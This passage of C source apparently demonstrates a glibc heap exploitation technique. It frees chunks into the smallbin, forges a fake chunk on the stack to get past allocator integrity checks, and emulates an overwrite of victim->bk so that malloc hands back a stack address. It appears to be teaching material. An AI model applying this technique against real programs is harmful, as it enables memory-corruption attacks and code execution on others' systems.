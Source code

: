 ```c
  intptr_t *victim = malloc(0x100);
  fprintf(stderr, "Allocated the first small chunk on the heap at %p\n", victim);

  // victim-WORD_SIZE because we need to remove the header size in order to have the absolute address of the chunk
  intptr_t *victim_chunk = victim-2;

  fprintf(stderr, "stack_buffer_1 at %p\n", (void*)stack_buffer_1);
  fprintf(stderr, "stack_buffer_2 at %p\n", (void*)stack_buffer_2);

  fprintf(stderr, "Create a fake chunk on the stack\n");
  fprintf(stderr, "Set the fwd pointer to the victim_chunk in order to bypass the check of small bin corrupted"
         "in second to the last malloc, which putting stack address on smallbin list\n");
  stack_buffer_1[0] = 0;
  stack_buffer_1[1] = 0;
  stack_buffer_1[2] = victim_chunk;

  fprintf(stderr, "Set the bk pointer to stack_buffer_2 and set the fwd pointer of stack_buffer_2 to point to stack_buffer_1 "
         "in order to bypass the check of small bin corrupted in last malloc, which returning pointer to the fake "
         "chunk on stack");
  stack_buffer_1[3] = (intptr_t*)stack_buffer_2;
  stack_buffer_2[2] = (intptr_t*)stack_buffer_1;

  fprintf(stderr, "Allocating another large chunk in order to avoid consolidating the top chunk with"
         "the small one during the free()\n");
  void *p5 = malloc(1000);
  fprintf(stderr, "Allocated the large chunk on the heap at %p\n", p5);

  fprintf(stderr, "Freeing the chunk %p, it will be inserted in the unsorted bin\n", victim);
  free((void*)victim);

  fprintf(stderr, "\nIn the unsorted bin the victim's fwd and bk pointers are nil\n");
  fprintf(stderr, "victim->fwd: %p\n", (void *)victim[0]);
  fprintf(stderr, "victim->bk: %p\n\n", (void *)victim[1]);

  fprintf(stderr, "Now performing a malloc that can't be handled by the UnsortedBin, nor the small bin\n");
  fprintf(stderr, "This means that the chunk %p will be inserted in front of the SmallBin\n", victim);

  void *p2 = malloc(1200);
  fprintf(stderr, "The chunk that can't be handled by the unsorted bin, nor the SmallBin has been allocated to %p\n", p2);

  fprintf(stderr, "The victim chunk has been sorted and its fwd and bk pointers updated\n");
  fprintf(stderr, "victim->fwd: %p\n", (void *)victim[0]);
  fprintf(stderr, "victim->bk: %p\n\n", (void *)victim[1]);

  //------------VULNERABILITY-----------

  fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");

  victim[1] = (intptr_t)stack_buffer_1; // victim->bk is pointing to stack

  //------------------------------------

  fprintf(stderr, "Now allocating a chunk with size equal to the first one freed\n");
  fprintf(stderr, "This should return the overwritten victim chunk and set the bin->bk to the injected victim->bk pointer\n");
```